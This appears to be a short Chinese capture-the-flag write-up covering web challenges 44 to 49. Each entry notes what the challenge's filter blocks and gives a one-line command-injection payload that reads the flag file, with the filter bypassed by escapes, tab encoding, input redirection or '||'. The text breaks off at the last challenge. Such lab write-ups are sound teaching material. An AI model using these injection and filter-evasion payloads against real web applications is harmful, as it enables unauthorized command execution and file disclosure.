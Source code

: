 ------

### web-44

这题跟上题类似，但过滤了flag，因此我们构造payload

```
?c=tac f\lag%0a
```

------

### web-45

多过滤了一个空格

```
paylo?c=tac%09fl*%26
```

------

### web-46

该题过滤了空格和0-9，$,*,因此这题就不能使用url编码了，但我们可以使用||绕过

```
payload：?c=tac<fl\ag.php||
```

------

### web-47

这道题过滤了更多的文件读取命令，但还是没有过滤tac，因此

```
payload：?c=tac<fl\ag.php||
```

------

### web-48

额，这题依旧没过滤tac

```
payload：?c=tac<fl\ag.php||
```

------

### web-49

嗯，依旧没过滤

页面进行get请求时都会进行url解码再传参的
